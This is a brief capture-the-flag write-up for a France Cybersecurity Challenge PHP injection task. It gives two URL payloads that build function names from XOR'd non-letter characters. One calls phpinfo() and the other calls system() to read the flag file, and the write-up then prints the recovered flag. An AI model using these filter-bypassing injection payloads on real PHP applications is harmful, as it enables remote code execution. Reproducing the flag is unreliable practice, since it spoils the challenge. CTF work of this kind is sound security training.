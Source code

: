 PoC spawning phpinfo(): 
```powershell
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=$___=%22-%22%5E%22]%22;$____=%22(%22%5E%22%60%22;$_____=%22)%22%5E%22@%22;$______=%22.%22%5E%22%60%22;$_______=%22[%22%5E%22=%22;$________=%22/%22%5E%22@%22;$_________=%22/%22%5E%22%60%22;$_++;$______________=$___.$____.$___.$_____.$______.$_______.$_________;$______________();
```

```powershell
Exploit getting the flag: 
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=$___________________=%22^%22^%22?%22;%20$__=%20%22-%22%20^%20%22^%22;$_=%20%22%27%22^%22^%22;$___=%22/%22^%22[%22;$____=%22%%22^%22`%22;$_____=$__.$_.$__.$___.$____.%27m%27;$_____(%22c%22.$___________________.%22t%20.f*%22);
```
In source code: 

<?php
	// Well done!! Here is the flag:
	// FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}
